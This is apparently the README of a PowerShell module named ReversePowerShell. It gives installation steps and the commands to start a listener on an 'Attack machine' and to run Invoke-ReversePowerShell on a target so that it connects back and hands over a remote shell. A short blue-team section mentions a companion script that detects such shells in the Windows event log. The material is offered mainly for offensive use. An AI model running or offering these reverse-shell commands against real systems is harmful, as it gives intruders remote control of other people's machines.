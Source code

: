 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell.

#### BLUE TEAM DISCOVERY 
Find-ReverseShell.psm1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover.

#### INSTALL THE MODULE
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 'C:\Users\<username>\Documents\WindowsPowerShell\Modules\ReversePowerShell'

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
---
#### FIREWALL
If you are not able to gain a connection it is most likely due to the Windows Firewall. 

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
